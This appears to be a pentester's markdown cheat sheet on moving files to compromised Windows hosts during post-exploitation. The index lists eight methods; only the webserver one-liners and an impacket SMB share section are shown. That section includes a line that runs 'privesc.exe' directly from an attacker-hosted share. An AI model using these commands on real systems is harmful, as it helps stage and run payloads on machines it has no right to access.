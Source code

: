 ```yaml
---
title: windows file transfer
category: post exploitation
order: 1
---
```



# **INDEX**
----

0. simple webservers
1. smbserver
2. tftp
3. ftp
4. SCP
5. VBScript
6. powershell
7. upgrade cmd to powershell


# **0 simple webserver**
---
### |  python 2.7
```
python2 -m SimpleHTTPServer
```
### |  python3
```
python3 -m http.server
```
### |  ruby
```
ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 8888, :DocumentRoot => Dir.pwd).start"
```
### |  php
```
php -S 0.0.0.0:8888
```

&nbsp;
# **1 Smbsever (impacket)**
---
impacket-smbserver <share name> <path>

### |  **kali:**
```
smbserver.py  myshare /tmp/smbshare -smb2
```
### |  **windows:**
```
net use M: \\<kali-ip>\myshare
```
### |  **Tmb se puede correr desde smb**
```
\\10.10.10.1\privesc.exe  whoami
```
